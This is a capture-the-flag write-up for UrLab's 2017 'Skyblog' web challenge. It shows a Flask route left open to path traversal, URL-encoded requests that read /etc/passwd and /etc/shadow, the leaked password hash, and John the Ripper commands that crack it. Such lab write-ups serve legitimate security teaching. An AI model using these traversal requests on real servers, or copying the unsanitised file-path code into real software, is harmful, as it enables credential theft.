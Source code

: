 [Source](https://github.com/UrLab/ctf-writeups/tree/master/2017/qualifiers/web/skyblog)
# Skyblog

**Web, 250 points**

> I have an awesome idea ! Yes i do !
> I am launching a new blog platform.
> It is going to be the new Skyblog, better and more profitable than Medium.
> I'm going to be rich !
>
> You can preview the beta over there : http://challenges.urlab.be:16904
>
> *Note: this is a web challenge. You should be able to load a website in a normal browser. If it's not the case, please warn us. (The challenge is unstable due to networking problems)*
>
> **WARNING: do NOT use automated tools like wapiti or nikto**


![screenshot](https://github.com/UrLab/ctf-writeups/raw/master/2017/qualifiers/web/skyblog/screenshot.png)

## Solution

You have a website of a blog. When you click on a blog post, you get an url like this : `http://challenges.urlab.be:16904/post/1%20-%20Hello%20World.md`. You have to try some local file injection by manipulation the url.

A first try could be to try `http://challenges.urlab.be:16904/post/../../../../etc/passwd`. But you have the problem that your browser simplifies the url to `http://challenges.urlab.be:16904/../../../etc/passwd`. You have to urlencode every `/` to `%2F`.

## Optionnal (goto "users passwords")
After some research you try some common file names and find `/post/..%2F/main.py`
You find the source code of the application :

    from flask import Flask
    from flask import render_template
    import glob
    import os
    import markdown

    app = Flask(__name__)

    #### The flag is not here. My guess is that you are looking for a user password :)


    @app.route(&#34;/&#34;)
    def hello():
        posts = [os.path.splitext(os.path.basename((x)))[0] for x in glob.glob(&#34;posts/*.md&#34;)]
        return render_template(&#39;hello.html&#39;, posts=posts)


    @app.route(&#34;/post/&lt;path:title&gt;&#34;)
    def view_post(title):
        with open(os.path.join(&#34;./posts&#34;, title)) as fd:
            raw = fd.read()
            html = markdown.markdown(raw)
            return render_template(&#39;post.html&#39;, post=html, title=title, raw=raw)

    if __name__ == &#34;__main__&#34;:
        app.run(debug=False, host=&#34;0.0.0.0&#34;)

So yes, definitely it's a local file inclusion but the flag is not here :/

## Users passwords

You are looking for a flag/password. You try to get access to the file system root then `/etc/password`.
We can try `http://challenges.urlab.be:16904/post/..%2Fetc%2Fpasswd` but it does not work.

Let's try one directory higher : `http://challenges.urlab.be:16904/post/..%2F..%2Fetc%2Fpasswd`.
It works but does not give any password.

We then try http://challenges.urlab.be:16904/post/..%2F..%2Fetc%2Fshadow`. The website gives us :

    root:*:17185:0:99999:7:::
    daemon:*:17185:0:99999:7:::
    bin:*:17185:0:99999:7:::
    sys:*:17185:0:99999:7:::
    sync:*:17185:0:99999:7:::
    games:*:17185:0:99999:7:::
    man:*:17185:0:99999:7:::
    lp:*:17185:0:99999:7:::
    mail:*:17185:0:99999:7:::
    news:*:17185:0:99999:7:::
    uucp:*:17185:0:99999:7:::
    proxy:*:17185:0:99999:7:::
    www-data:*:17185:0:99999:7:::
    backup:*:17185:0:99999:7:::
    list:*:17185:0:99999:7:::
    irc:*:17185:0:99999:7:::
    gnats:*:17185:0:99999:7:::
    nobody:*:17185:0:99999:7:::
    systemd-timesync:*:17185:0:99999:7:::
    systemd-network:*:17185:0:99999:7:::
    systemd-resolve:*:17185:0:99999:7:::
    systemd-bus-proxy:*:17185:0:99999:7:::
    _apt:*:17185:0:99999:7:::
    flag:$1$AAPF0FVA$lUtYCUZPGuNzJrJ9bAGK10:17215:0:99999:7:::

The `flag:$1$AAPF0FVA$lUtYCUZPGuNzJrJ9bAGK10:17215:0:99999:7:::` looks like the flag !

## Password cracking

But no, it's not the flag ^^

You still have to crack the password hash.
You then crack it with John the ripper and the dictionary we provided.

    john a-file-with-the-hash.txt --wordlist=Project/ctf-challenges/dict.txt
    john a-file-with-the-hash.txt --show

After a few minutes you get back the flag : `pelandosi`
